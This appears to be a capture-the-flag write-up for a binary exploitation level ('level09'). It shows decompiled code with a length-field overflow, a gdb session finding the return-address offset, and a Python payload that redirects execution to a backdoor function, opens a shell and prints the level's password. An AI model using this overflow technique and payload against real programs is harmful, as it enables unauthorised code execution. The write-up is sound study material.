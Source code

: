 ## Source

	char v1[140]
	...
	set_username((__int64)v1);
	set_msg((__int64)v1);

	int set_username(__int64 a1) {
		char s[140];
		int i;
		...
  		fgets(s, 128, stdin);
  		for ( i = 0; i <= 40 && s[i]; ++i )
    	*(_BYTE *)(a1 + i + 140) = s[i];
  		return printf(">: Welcome, %s", (const char *)(a1 + 140));
	}

set_username writes 41 characters of s (our inputed username) in &v1[140] (it doesn't segfault somehow but it's not the subject)

	char *set_msg(__int64 a1) {
		char s[1024];
		...
		fgets(s, 1024, stdin);
		return strncpy((char *)a1, s, *(int *)(a1 + 180));
	}

set_msg writes with strncpy() a1[180] ***(converted as int because if a1[180] == 0xFF then strncpy writes 0xFF000000 characters) characters of s (our inputed msg) inside &a1[0], we can overflow and retrieve the address eip points to (Here it is not EIP anymore because it is a 64 bits program, it becomes RIP) with info frame, we have our offset that way


## bash
	> python -c "print 'A'*40 + '\xff\n' + 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A'" > /tmp/payload09

## gdb
	> r < <(cat /tmp/payload09)
	Segfault...
	> info frame
	...
	saved rip 0x4138674137674136
	...

0x4138674137674136 = offset at 200

It appears we also have a beautiful function called secret_backdoor() which calls gets() then system({our input}) \
Let's redirect RIP to secret_backdoor() \
	
	> p secret_backdoor
	... 0x55555555488c <secret_backdoor> (on rajoute 0000 pour ecrire 64 bits)

## Payload
	> python -c "print 'A'*40 + '\xff\n' + 'A'*200 + '\x00\x00\x55\x55\x55\x55\x48\x8c'[::-1]" > /tmp/payload09
	> cat /tmp/payload09 - | ./level09
	> /bin/sh
	> cat /home/users/end/.pass
	j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE